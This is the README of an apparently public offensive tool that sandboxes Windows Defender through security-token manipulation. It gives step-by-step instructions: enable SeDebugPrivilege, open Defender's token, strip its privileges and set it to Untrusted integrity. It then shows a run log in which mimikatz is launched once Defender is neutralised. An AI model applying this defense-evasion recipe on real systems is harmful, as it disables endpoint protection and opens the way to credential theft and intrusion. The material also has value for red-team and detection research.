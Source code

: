 # Sandbox Defender

Sandboxing Defender (and probably other AV/EDRs) using Security Token manipulation.

If you do use any of the code in these repositories **keep it legal!**

# Introduction

This code was written after reading [Sandboxing Antimalware Products for Fun and Profit](https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/) by **Elastic Security Research**. I am a little bit late to the party it would seem, the article was made public on the 02/02/22 (3 days ago as of writing), and [Martin Ingesens TokenStomp](https://github.com/MartinIngesen/TokenStomp) was posted 04/02/22. MUST code faster!

Anyway, writing this code was fun.

The technique is very simple:

- Enable the `SeDubgPrivilege` in our process security token.
- Get a handle to Defender using `PROCESS_QUERY_LIMITED_INFORMATION`.
- Get a handle to the Defender token using `TOKEN_ALL_ACCESS`.
- Disable all privileges in the token using `SetPrivilege`
- Set the Defender token Integrity level to Untrusted.
- Do bad things... legally of course!

# Example

Execution of the code is shown below (then executing mimikatz after defender is sandboxed):

```
.\SandboxDefender.exe
[+] Getting a token handle for this process.
[+] Token handle: 0x2EC
[+] Enabling SeDebugPrivilege.
[+] SeDebugPrivilege enabled.
[+] Defender PID: 5212
[+] Getting a process handle for Defender.
[+] Process handle: 0x2F0
[+] Getting a token handle for the Defender process.
[+] Token handle: 0x2F4
[+] Will disable Defender privileges.
[+] Will set Defender Integrity to Untrusted.
[+] Done... Have a nice day!

.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

# Nice Pictures

